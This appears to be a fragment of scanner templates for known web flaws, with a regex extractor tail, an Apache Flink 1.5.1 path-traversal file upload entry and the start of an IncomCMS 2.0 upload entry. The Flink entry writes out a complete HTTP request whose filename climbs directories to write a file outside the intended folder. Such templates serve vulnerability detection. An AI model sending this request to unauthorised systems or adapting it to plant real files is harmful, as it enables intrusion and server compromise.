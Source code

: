 
### Extractors

**Type - regex**

- part - body
- regex
  1. window\.opener\.(changeDisplayImage|addphoto)\("(.\*?)"\);

**Payloads**- component

---

# Apache Flink 1.5.1 - Local File Inclusion

## Description

- Apache Flink 1.5.1 is vulnerable to local file inclusion because of a REST handler that allows file uploads to an arbitrary location on the local file system through a maliciously modified HTTP HEADER.

- severity - high
- tags - lfi,flink,fileupload,vulhub,cve,cve2020,apache,intrusive

## Requests

### Step - 1

```
POST /jars/upload HTTP/1.1
Host: {{Hostname}}
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../../tmp/poc"

test-poc
------WebKitFormBoundaryoZ8meKnrrso89R6Y--

```

---

# IncomCMS 2.0 - Arbitrary File Upload

## Description

- IncomCMS 2.0 has a an insecure file upload vulnerability in modules/uploader/showcase/script.php. This allows unauthenticated attackers to upload files into the server.
